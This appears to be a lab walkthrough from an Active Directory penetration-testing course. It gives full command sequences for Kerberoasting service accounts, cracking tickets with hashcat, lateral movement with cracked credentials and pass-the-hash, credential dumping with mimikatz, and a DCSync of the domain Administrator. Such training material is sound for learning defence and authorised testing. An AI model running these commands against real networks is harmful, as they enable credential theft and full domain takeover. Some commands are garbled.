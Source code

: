 First, once we have a foothold, e.g. a webshell, we can try to stabilize it through a meterpreter shell.
Once we do that we have to check for internal interfaces, to pivot in the internal net.
We can do so by running:

```powershell
ipconfig /all

systeminfo | findstr /i "domain"

nltest /dclist: 

nslookup DC01.INLANEFREIGHT.LOCAL
```

This will give us the ips, domain and DC name.

or: `setspn.exe -Q */*`

This will list a lot of info about the domain. Now we can use setspn.exe to load the tickets into the memory of our session. Based on the output of setspn: 
```Powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL01.inlanefreight.local:1433"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL02.inlanefreight.local:1433"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL-DEV01.inlanefreight.local:1433"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEVTEST.inlanefreight.local:1433"
```

```Powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Then we can take the base64 hash, decode it and save it:
```bash
# Convert base64 to kirbi
echo "doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgE..." | base64 -d > svc_sql.kirbi

# Extract hash using kirbi2john
python kirbi2john.py svc_sql.kirbi > crack_file

# Modify for hashcat format 
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > svc_sql_hash

# Crack with hashcat
hashcat -m 13100 svc_sql_hash /usr/share/wordlists/rockyou.txt
```

Now, if we want to use these creds to connect to another host from the internal net:
```powershell
Enter-PSSession -ComputerName ms01.inlanefreight.local -Credential (New-Object PSCredential 'svc_sql',(ConvertTo-SecureString 'lucky7' -AsPlainText -Force))
```

Now we can list out what we can do as svc_sql:
```powershell
# Check privileges whoami
/priv
# Check local groups whoami
/groups net localgroup 
# Check domain groups/memberships
net user svc_sql /domain
```

We got RDP rights, we can set up a tunnel and xfreerdp:
```powershell
portfwd add -l 3389 -p 3389 -r 172.16.6.3
```

```powershell
xfreerdp /v:127.0.0.1:3399 /u:Administrator /pth:hash /drive:Downloads,/home/htb-ac-692694/Downloads
```

Now we can move mimikatz on the system and run it as admin and run sekurlsa::msv to get the tickets, we will get tpetty's ticket.
Check what tpetty can do with a tpetty shell:
```powershell
# Using PowerView
$sid = Convert-NameToSid tpetty -Domain "INLANEFREIGHT.LOCAL" Get-DomainObjectACL -Domain "INLANEFREIGHT.LOCAL" "DC=INLANEFREIGHT,DC=LOCAL" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid} 
# Look for these rights that allow DCSync: 
# - DS-Replication-Get-Changes # - DS-Replication-Get-Changes-All 
# - DS-Replication-Get-Changes-In-Filtered-Set
#Or use BloodHound to map out if tpetty has DCSync privileges on the domain.
```

Now with the ticket we can try crack it or pth with mimikatz and then do a dcsync.

```powershell
sekurlsa::pth /user:tpetty /domain:INLANEFREIGHT.LOCAL /ntlm:fd37b6fec5704cadabb319cebf9e3a3a

lsadump::dcsync /domain:INLANEFREIGHT.local /user:INLANEFREIGHT\Administrator
```

